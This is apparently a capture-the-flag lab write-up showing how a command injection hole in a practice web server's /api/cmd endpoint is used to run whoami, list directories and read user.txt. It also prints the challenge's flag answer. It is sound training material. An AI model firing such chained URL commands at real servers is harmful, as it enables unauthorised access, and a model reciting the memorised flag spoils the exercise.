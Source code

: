 ## Introduction

> Another day, another hack from the Christmas Monster. Can you get back control of the system?

> Access the web server on http://[your-ip]:3000/

> McSkidy actually found something interesting on the /api/cmd endpoint.

> Check out the [supporting material](./Christmas Command Injection) here.

## Questions

> What are the contents of the user.txt file?

td:lr Answer: **5W7WkjxBWwhe3RNsWJ3Q**

===============================================================================

On the webpage, it is just an empty page with the text "christmas monster was here"

we were given in the intro that there is something interesting on /api/cmd.

Navigating to http://[ip]:3000/api/cmd, we will see error "Cannot GET /api/cmd/"
However, as the supporting doc implies, there might be command injection available here

we can try by inserting whoami:

`http://[ip]:3000/api/cmd/whoami`

straightaway we can see a json return of 'root\n', which means our command injection works successfully
So now we need to find the right information by enumerating and finding the right file:

`http://[ip]:3000/api/cmd/ls -la`

![](./res/pic1.png)

`http://[ip]:3000/api/cmd/cd home&&ls -la`

![](./res/pic2.png)

`http://[ip]:3000/api/cmd/cd home&&cd bestadmin&&ls -la`

![](./res/pic3.png)

in the directory home/bestadmin/ we will find the user.txt file. Hence the below will give us the answer.

`http://[ip]:3000/api/cmd/cd%20home&&cd%20bestadmin&&cat%20user.txt`

